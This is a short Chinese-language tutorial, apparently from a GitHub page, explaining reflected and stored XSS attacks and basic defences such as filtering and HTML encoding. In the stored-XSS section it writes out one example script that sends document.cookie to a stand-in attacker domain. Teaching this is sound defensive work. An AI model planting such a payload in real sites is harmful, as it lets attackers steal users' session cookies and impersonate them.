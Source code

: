 ## xss 攻击

### 什么是 XSS 攻击？

> XSS 即（Cross Site Scripting）中文名称为：跨站脚本攻击。XSS 的重点不在于跨站点，而在于脚本的执行。那么 XSS 的原理是：
> 恶意攻击者在 web 页面中会插入一些恶意的 script 代码。当用户浏览该页面的时候，那么嵌入到 web 页面中 script 代码会执行，因此会达到恶意攻击用户的目的。那么 XSS 攻击最主要有如下分类：反射型、存储型、及 DOM-based 型。 反射性和 DOM-baseed 型可以归类为非持久性 XSS 攻击。存储型可以归类为持久性 XSS 攻击。

### 一、反射型 XSS

- 反射型 XSS 的攻击步骤如下：

1. 攻击者在 url 后面的参数中加入恶意攻击代码。
2. 当用户打开带有恶意代码的 URL 的时候，网站服务端将恶意代码从 URL 中取出，拼接在 html 中并且返回给浏览器端。
3. 用户浏览器接收到响应后执行解析，其中的恶意代码也会被执行到。
4. 攻击者通过恶意代码来窃取到用户数据并发送到攻击者的网站。攻击者会获取到比如 cookie 等信息，然后使用该信息来冒充合法用户的行为，调用目标网站接口执行攻击等操作。

- 常见的反射性 XSS：
  恶意链接


### 二、存储型 XSS

> 存储型 XSS 的原理是：主要是将恶意代码上传或存储到服务器中，下次只要受害者浏览包含此恶意代码的页面就会执行恶意代码。
比如我现在做了一个博客网站，然后攻击者在上面发布了一篇文章，内容是如下：<script>window.open("www.gongji.com?param="+document.cookie)</script> 如果我没有对该文章进行任何处理的话，直接存入到数据库中，那么下一次当其他用户访问该文章的时候，服务器会从数据库中读取后然后响应给客户端，那么浏览器就会执行这段脚本，然后攻击者就会获取到用户的cookie，然后会把cookie发送到攻击者的服务器上了。

- 存储型 XSS 的攻击步骤如下：

1. 攻击者将恶意代码提交到目标网站数据库中。
2. 用户打开目标网站时，网站服务器将恶意代码从数据库中取出，然后拼接到 html 中返回给浏览器中。
3. 用户浏览器接收到响应后解析执行，那么其中的恶意代码也会被执行。
4. 那么恶意代码执行后，就能获取到用户数据，比如上面的 cookie 等信息，那么把该 cookie 发送到攻击者网站中，那么攻击者拿到该 cookie 然后会冒充该用户的行为，调用目标网站接口等违法操作。

- 如何防范？

1. 后端需要对提交的数据进行过滤。
2. 前端也可以做一下处理方式，比如对 script 标签，将特殊字符替换成 HTML 编码这些等。
